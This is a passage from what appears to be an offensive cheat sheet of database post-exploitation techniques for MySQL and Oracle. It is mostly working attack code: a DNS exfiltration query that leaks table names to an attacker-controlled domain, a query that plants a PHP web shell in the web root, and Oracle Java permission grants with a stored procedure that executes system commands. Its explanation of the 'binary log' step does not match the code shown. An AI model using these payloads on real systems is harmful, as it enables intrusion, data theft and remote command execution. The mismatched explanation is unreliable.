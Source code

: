 This technique involves creating a UDF to execute system commands.

### DNS Exfiltration

```  
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT table_name FROM information_schema.tables LIMIT 0,1), '.attacker.com\\a'));  
```

This exfiltrates data through DNS requests to an attacker-controlled domain.

### Binary Log Injections

```  
SET GLOBAL general_log = 'ON';  
SET GLOBAL general_log_file = '/var/lib/mysql/mysql.log';  
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';  
```

This exploits the binary log feature to write a web shell.

## Oracle

### Java Procedures for Command Execution

```  
EXEC dbms_java.grant_permission( 'SCOTT', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'execute' );  
EXEC dbms_java.grant_permission( 'SCOTT', 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '' );  
EXEC dbms_java.grant_permission( 'SCOTT', 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '' );  

CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "cmd" AS  
import java.io.*;  
public class cmd {  
   public static String run(String cmd) {  
      try {  
         StringBuffer output = new StringBuffer();  
         Process p = Runtime.getRuntime().exec(cmd);  
         BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));  
         String line = "";  
         while ((line = reader.readLine())!= null) {  
            output.append(line + "\n");  
         }  
         return output.toString();  
      } catch (Exception e) {  
         return e.toString();  
      }  
   }  
};  
/  

CREATE OR REPLACE FUNCTION run_cmd(p_cmd IN VARCHAR2) RETURN VARCHAR2  
AS LANGUAGE JAVA  
NAME 'cmd.run(java.lang.String) return java.lang.String';  

SELECT run_cmd('id') FROM dual;  
```
